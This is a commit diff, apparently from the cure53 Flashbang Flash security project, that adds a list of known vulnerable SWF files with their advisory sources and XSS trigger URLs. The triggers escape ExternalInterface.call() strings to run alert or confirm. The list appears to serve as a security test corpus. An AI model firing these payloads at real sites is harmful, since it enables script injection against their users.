

Before and after one commit to cure53/Flashbang, a plain HTML site: page flash-files/index.html in a window 1280 px wide. Shown: the top 797 px of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Added some vulnerable flash files

```diff
--- a/flash-files/index.html
+++ b/flash-files/index.html
@@ -22,6 +22,60 @@
         <ul>
             <li>source - FEDB</li>
             <li>trigger - <b>files/ZeroClipboard.swf?id=\"))}catch(e){confirm(/XSS./.source);}//&width=500&height=500&.swf</b></li>
+        </ul>
+    </li>
+
+    </br>
+    <li>
+        player.swf : ExternalInterface.call()
+        <ul>
+            <li>source - Wordpress Audio Player XSS</li>
+            <li>trigger - <b>files/player.swf?playerID=a\%22%29%29}catch%28e%29{alert%28document.domain%29}//</b></li>
+        </ul>
+    </li>
+
+    </br>
+    <li>
+        uploader.swf : ExternalInterface.call()
+        <ul>
+            <li>source - YUI http://yuilibrary.com/support/20131111-vulnerability/</li>
+            <li>trigger - <b>files/uploader.swf?allowedDomain=\%22}%29%29%29}catch%28e%29{alert%28document.domain%29;}//</b></li>
+        </ul>
+    </li>
+
+    </br>
+    <li>
+        tagcloud.swf : ExternalInterface.call() href attribute xss
+        <ul>
+            <li>source - http://www.exploit-db.com/exploits/33566/</li>
+            <li>trigger - <b>files/tagcloud.swf?mode=tags&tagcloud=%3Ctags%3E%3Ca+href='http://websecurity.com.ua'+style='font-size:+40pt'%3EClick%20me%3C/a%3E%3C/tags%3E</b></li>
+        </ul>
+    </li>
+
+    </br>
+    <li>
+        xss.swf : ExternalInterface.call()
+        <ul>
+            <li>source - https://github.com/evilcos/xss.swf</li>
+            <li>trigger - <b>https://github.com/evilcos/xss.swf/blob/master/README.md</b></li>
+        </ul>
+    </li>
+
+    </br>
+    <li>
+        open-flash-chart.swf : get-data
+        <ul>
+            <li>source - http://packetstormsecurity.com/files/120433/WordPress-Pretty-Link-1.6.3-Cross-Site-Scripting.html</li>
+            <li>trigger - <b>files/open-flash-chart.swf?get-data=(function(){alert(/hello/)})()</b></li>
+        </ul>
+    </li>
+
+    </br>
+    <li>
+        io.swf : ExternalInterface.call
+        <ul>
+            <li>source - http://xforce.iss.net/xforce/xfdb/85817</li>
+            <li>trigger - <b>files/io.swf?yid=\"));}catch(e){alert(9)}//</b></li>
         </ul>
     </li>
 
```
Also changed, not shown: 8 other files.
